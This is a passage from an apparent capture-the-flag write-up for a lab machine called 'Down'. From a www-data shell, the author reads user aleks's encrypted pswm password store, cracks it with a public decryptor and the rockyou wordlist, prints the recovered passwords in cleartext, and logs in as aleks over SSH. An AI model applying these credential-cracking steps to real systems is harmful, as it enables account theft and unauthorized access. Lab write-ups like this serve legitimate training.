 ```
www-data@down:/home/aleks/.local/share/pswm$ cat p
cat pswm 
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==www-data@down:/home/aleks/.local/share/pswm$ cat pswm;echo
cat pswm;echo
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
www-data@down:/home/aleks/.local/share/pswm$ 
```
### Password Manager Analysis
Looking online I find that this is a [python password manager](https://github.com/Julynx/pswm) . Then I found this [repo](https://github.com/seriotonctf/pswm-decryptor) that  for decrpting the encrypted string where I find aleks password
```
python3 pswm-decrypt.py -h         
usage: pswm-decrypt.py [-h] -f FILE -w WORDLIST

pswm master password cracker

options:
  -h, --help               show this help message and exit
  -f, --file FILE          Path to the encrypted file
  -w, --wordlist WORDLIST  Path to the wordlist file
                                                                                                                     
┌──(.env)─(null㉿shadow)-[~/…/Vulnhub/Down/files/pswm-decryptor]
└─$ python3 pswm-decrypt.py -f ../pswm.hash -w /usr/share/wordlists/rockyou.txt
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
```
### Access as aleks
Then I got a shell via `ssh`
```
ssh aleks@10.129.234.87                      
The authenticity of host '10.129.234.87 (10.129.234.87)' can't be established.
ED25519 key fingerprint is SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.234.87' (ED25519) to the list of known hosts.
(aleks@10.129.234.87) Password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 System information as of Thu Oct 16 08:29:38 AM UTC 2025

  System load:           0.0
  Usage of /:            65.4% of 6.92GB
  Memory usage:          9%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.129.234.87
  IPv6 address for eth0: dead:beef::250:56ff:fe94:aa9a
Last login: Tue Jun 10 15:47:07 2025 from 10.10.14.67
aleks@down:~$ 
```
### Sudo Privileges
Running `sudo -l` I find that we can execute everything with root privileges 